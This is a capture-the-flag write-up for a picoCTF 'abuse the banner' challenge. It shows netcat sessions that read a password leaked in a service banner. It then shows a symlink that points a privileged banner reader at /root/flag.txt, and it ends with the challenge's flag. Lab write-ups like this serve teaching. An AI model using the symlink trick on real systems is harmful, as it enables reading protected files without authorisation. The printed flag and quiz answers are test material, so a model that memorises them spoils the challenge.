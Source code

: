 # Overview 
Category: [General Skills]()

AUTHOR: LOIC SHEMA / SYREAL

# Description
Can you abuse the banner?
Additional details will be available after launching your challenge instance.

# Solution
- **we're going to start by exploring the leaked information from the initial server by netcatting that host and port**
- 
    ┌──(kali㉿kali)-[/]

    └─$ nc tethys.picoctf.net 64478

SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

- **The Exploit**
  
  So now we have a password, we can see what it comes. We will step through a bit of questions and answers available on Google.

    ┌──(kali㉿kali)-[/] 
    
    └─$ nc tethys.picoctf.net 54610      


\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

    what is the password? 
    My_Passw@rd_@1234
    What is the top cyber security conference in the world?
    DEFCON
    the first hacker ever was known for phreaking(making free phone calls), who was it?
    John Draper
    player@challenge:~$ ls
    banner text

>player@challenge:~$ cat banner

\*************************************

\*\*\*\*\*\*\*\*\*\*\*\*WELCOME\*\*\*\*\*\*\*\*\*\*\*\*

\*************************************

=> It is the code when I opened the connection

    player@challenge:~$ cat text
    keep digging

Now move to the root directory and get the flag?

    player@challenge:~$ cd /root
    player@challenge:/root$ ls
    flag.txt  script.py
    player@challenge:/root$ cat flag.txt
    cat: flag.txt: Permission denied

We have no permission to read it.We can try to symlink the flag to take the place of the banner, and see if it’s being read by something with a higher privilege level.

    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    ln: failed to create symbolic link '/home/player/banner': File exists
    player@challenge:/root$ rm ~/banner
    player@challenge:/root$  ln -s /root/flag.txt ~/banner
    player@challenge:/root$ cd ~
    player@challenge:$ cat ~/banner
    cat: /home/player/banner: Permission denied

We still can’t cat this banner out, but it was served when we connected before, so what if we simply disconnect and reconnect?

    ┌──(kali㉿kali)-[/]
    └─$ nc tethys.picoctf.net 54610

**picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}**

